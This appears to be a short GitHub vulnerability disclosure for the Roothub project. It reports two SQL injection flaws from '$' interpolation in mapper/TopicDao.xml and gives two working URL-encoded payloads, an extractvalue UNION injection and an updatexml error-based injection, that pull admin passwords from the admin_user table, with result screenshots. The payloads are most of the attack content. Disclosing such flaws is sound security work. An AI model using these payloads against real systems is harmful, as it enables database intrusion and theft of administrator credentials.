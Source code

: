 # Roothub_vulns

Vulnerable codes:

## Bug 1:
> Erroneously usage of "$" in mapper/TopicDao.xml:130:<br>
![image](https://user-images.githubusercontent.com/9525971/159167814-90697f99-74dc-496f-be04-c641db268602.png)<br><br>
## Bug 2:
> Erroneously usage of "$" in mapper/TopicDao.xml:516:<br>
![image](https://user-images.githubusercontent.com/9525971/159168468-e1956c80-26dd-4ad9-84ef-2939688cd907.png)

<br><br>
> Payload: we can use "extractvalue" or "updatexml" function in mysql to trigger the exception and finish the exploitation of this SQLi vulnerability.
1. "extractvalue":
a%25'%20union%20select%20null%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cextractvalue('1'%2Cconcat('~'%2C(select%20password%20from%20admin_user)))%20from%20admin_user--%20

2. "updatexml":
xx%25%27%20and%20updatexml(1%2Cconcat(0x7e%2C(select%20password%20from%20admin_user)%2C0x7e)%2C3)--%20<br><br>

> Result:
1. "extractvalue":
![image](https://user-images.githubusercontent.com/9525971/159168040-faae0fcd-d21c-4784-ab39-3faac5d6664e.png)<br>
2. "updatexml": 
![image](https://user-images.githubusercontent.com/9525971/159168005-c753cbf5-9f82-463c-9bcf-5dcfe8cdc6d6.png)


